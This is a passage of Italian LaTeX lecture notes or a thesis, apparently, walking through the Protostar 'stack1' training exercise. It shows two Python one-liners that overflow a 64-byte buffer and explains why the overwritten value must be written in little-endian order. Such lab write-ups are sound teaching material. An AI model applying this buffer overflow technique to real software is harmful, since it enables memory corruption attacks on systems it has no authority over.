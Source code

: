 \begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.4.png}
\end{figure}
\FloatBarrier
Otteniamo però un errore:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1
'python -c 'print "a" * 64 + "abcd"''
Try again, you got 0x64636261
$ _
\end{lstlisting}
\end{mdframed}
L'input, nonostante sia inserito in modo corretto, appare al contrario nell'output del programma. Questo perché l'architettura Intel è Little Endian, quindi interpreta i byte di memoria al contrario. Proviamo allora con lo stesso attacco mettendo i caratteri al contrario, e vinciamo la sfida.
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1
'python -c 'print "a" * 64 + "dcba"''
you have correctly got the variable to the right value
$ _
\end{lstlisting}
\end{mdframed}

